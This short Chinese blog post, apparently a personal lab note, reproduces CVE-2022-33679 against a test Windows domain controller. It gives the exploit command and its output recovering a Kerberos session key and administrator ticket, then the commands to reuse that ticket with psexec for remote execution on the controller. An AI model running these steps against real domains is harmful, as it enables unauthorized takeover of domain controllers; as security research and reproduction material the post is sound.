```yaml
---
title: "CVE-2022-33679复现"
date: 2023-10-07 08:30:23 +0800
category: 渗透测试
tags: [内网,渗透测试,域]
excerpt: CVE-2022-33679复现
---
```

## 复现过程

- 没有原理

  https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html

- 设置域管账号`不要求 Kerberos 预身份验证`

- 域控机器名`DC`

```
python CVE-2022-33679.py -debug -dc-ip 域控IP s.com/administrator dc

......
[+] Server time (UTC): 2023-10-07 01:14:25
[+] Trying to connect to KDC at 10.10.10.146
[*] Byte 4: 89
[*] Recovered Session key: 467b61afa0ababababababababababab
[+] Trying to connect to KDC at 10.10.10.146
[*] Got TGS for dc
[*] Saving ticket in administrator_dc.ccache
```

```
export KRB5CCNAME=administrator_dc.ccache
```

```
psexec.py -k -no-pass -dc-ip 域控IP -target-ip 域控IP dc
```

